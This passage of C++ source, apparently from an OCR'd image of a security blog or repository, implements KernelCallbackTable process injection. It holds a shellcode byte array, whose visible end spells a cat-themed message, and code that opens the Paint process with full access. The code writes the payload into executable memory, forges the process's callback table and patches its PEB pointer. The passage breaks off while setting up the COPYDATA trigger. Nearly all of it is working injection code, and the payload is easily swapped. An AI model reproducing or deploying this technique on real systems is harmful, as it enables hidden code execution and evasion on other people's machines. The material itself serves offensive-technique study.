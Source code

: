 ```cpp
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main() {

  HANDLE ph;
  DWORD pid;
  PROCESS_BASIC_INFORMATION pbi;
  KERNELCALLBACKTABLE kct;
  COPYDATASTRUCT cds;
  PEB peb;
  WCHAR msg[] = L"kernelcallbacktable injection impl";

  // find a window for mspaint.exe
  HWND hw = FindWindow(NULL, (LPCSTR) "Untitled - Paint");
  if (hw == NULL) {
    printf("failed to find window :(\n");
    return -2;
  }
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  HMODULE ntdll = GetModuleHandleA("ntdll");
  pNtQueryInformationProcess myNtQueryInformationProcess = 
  (pNtQueryInformationProcess)(GetProcAddress(
  ntdll, "NtQueryInformationProcess"));

  myNtQueryInformationProcess(ph, 
  ProcessBasicInformation, &pbi, sizeof(pbi), NULL);

  ReadProcessMemory(ph, pbi.PebBaseAddress, 
  &peb, sizeof(peb), NULL);
  ReadProcessMemory(ph, peb.KernelCallbackTable, 
  &kct, sizeof(kct), NULL);

  LPVOID rb = VirtualAllocEx(ph, NULL, sizeof(my_payload),
  MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, my_payload, 
  sizeof(my_payload), NULL);

  LPVOID tb = VirtualAllocEx(ph, NULL, sizeof(kct),
  MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
  kct.__fnCOPYDATA = (ULONG_PTR)rb;
  WriteProcessMemory(ph, tb, &kct, sizeof(kct), NULL);

  WriteProcessMemory(ph, 
  (PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable),
  &tb, sizeof(ULONG_PTR), NULL);

  cds.dwData = 1;
  cds.cbData = lstrlen((LPCSTR)msg) * 2;
  cds.lpData = msg;

```
